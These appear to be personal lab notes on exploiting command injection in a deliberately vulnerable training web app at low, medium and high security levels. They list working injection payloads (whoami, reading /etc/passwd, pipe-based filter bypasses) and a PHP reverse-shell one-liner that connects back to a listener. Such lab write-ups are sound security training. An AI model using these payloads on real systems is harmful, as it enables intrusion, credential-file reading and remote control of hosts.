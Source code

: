 Objective

Remotely, find out the user of the web service on the OS, as well as the machines hostname via RCE.

>[!important] Security is Set to Low

Command Injection is a very serious vulnerability.
Because when we find it we can often compromise the entire application and the host.
Basic exploitation that will test
; las -la

Logic Operators
&& ls -la

Testing IP adddress or site
```
https://tcm-sec.com;whoami
```
![[Pasted image 20231009200302.png]]

```
Command: ;whoami; asd
```

```
;ls -lah; asd
```
![[Pasted image 20231009200943.png]]

```
; cat /etc/passwd; asd
```
![[Pasted image 20231009201042.png]]

```
<ip address>; which bash
192.168.17.136; which bash
```
![[Pasted image 20231009201511.png]]

It's time to get a reverse shell bash didn't worked but php did as we get a shell successfully
```
192.168.17.136; /usr/bin/php -r '$sock=fsockopen("192.168.17.136",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Only thing to note here is that we have provided the ip address ping and along that we have added the payload
The site got hung-up which is a sign we got a shell 
![[Pasted image 20231009202252.png]]

>[!important] Let's now change the level to medium and will see if any check are being happening now:


I tried the basic command chainning , logic operators , commenting rest of the commands but 
pipe for command chaining worked to bypass the medium security 
```
127.0.0.1 | ls -la
```
![[Pasted image 20231009203858 1.png]]


Let's try to get a reverse shell and i m not positive that will get a shell cuz the code is substituting ; with nothing as a result the payload will not work. I tried with nc ncat which don't need ; but not successful.

>[!important] Let's change the level to High


```
127.0.0.1|ls
```
![[Pasted image 20231009231740.png]]
Can't get the shell but still we can read the data it's more than nothing at this point time.

Resources
https://appsecexplained.gitbook.io/appsecexplained/common-vulns/injection/command-injection

https://www.youtube.com/watch?v=WiqRvlN_UIU


